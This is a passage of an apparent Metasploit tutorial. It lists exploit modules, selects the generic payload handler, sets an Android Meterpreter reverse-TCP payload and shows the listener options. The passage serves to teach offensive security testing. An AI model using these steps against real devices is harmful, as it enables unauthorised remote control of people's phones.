 ```
   3  exploit/linux/local/bash_profile_persistence         1989-06-08       normal     No     Bash Profile Persistence
   4  exploit/linux/local/desktop_privilege_escalation     2014-08-07       excellent  Yes    Desktop Linux Password Stealer and Privilege Escalation
   5  exploit/multi/handler                                                 manual     No     Generic Payload Handler
   6  exploit/windows/mssql/mssql_linkcrawler              2000-01-01       great      No     Microsoft SQL Server Database Link Crawling Command Execution
   7  exploit/windows/browser/persits_xupload_traversal    2009-09-29       excellent  No     Persits XUpload ActiveX MakeHttpRequest Directory Traversal
   8  exploit/linux/local/yum_package_manager_persistence  2003-12-17       excellent  No     Yum Package Manager Persistence


Interact with a module by name or index. For example info 8, use 8 or use exploit/linux/local/yum_package_manager_persistence
```

As you can see, number 5 is our manual and Generic Payload Handler. Use this one and we must set our payload matching to the one we just used (/android/meterpreter/reverse\_tcp) –

```
use 5
```

```
[*] Using configured payload generic/shell_reverse_tcp
```

```
msf6 exploit(multi/handler) > set payload /android/meterpreter/reverse_tcp
payload => android/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > show options
```

```
Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ‐‐‐‐  ‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐  ‐‐‐‐‐‐‐‐  ‐‐‐‐‐‐‐‐‐‐‐


Payload options (android/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ‐‐‐‐   ‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐  ‐‐‐‐‐‐‐‐  ‐‐‐‐‐‐‐‐‐‐‐
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   ‐‐  ‐‐‐‐
   0   Wildcard Target
```
